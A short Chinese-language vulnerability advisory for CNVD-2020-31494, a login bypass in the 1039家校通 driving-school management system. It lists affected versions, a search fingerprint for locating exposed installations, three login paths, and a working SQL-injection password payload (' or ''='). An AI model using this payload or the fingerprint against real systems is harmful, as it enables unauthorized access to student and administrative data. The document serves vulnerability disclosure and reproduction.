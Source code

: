 # 1039家校通 万能密码绕过 CNVD-2020-31494

# 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

```
1039家校通 v1.0 - v6.0
```

## 网络测绘

```
title="学员登录_1039家校通"
```

## 漏洞复现

管理员登录接口为

```plain
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```



![](/images/202202101936922.png)



账号密码为如下即可登录

```plain
user:peiqi
pass:' or ''='
```



![](/images/202202101936366.png)

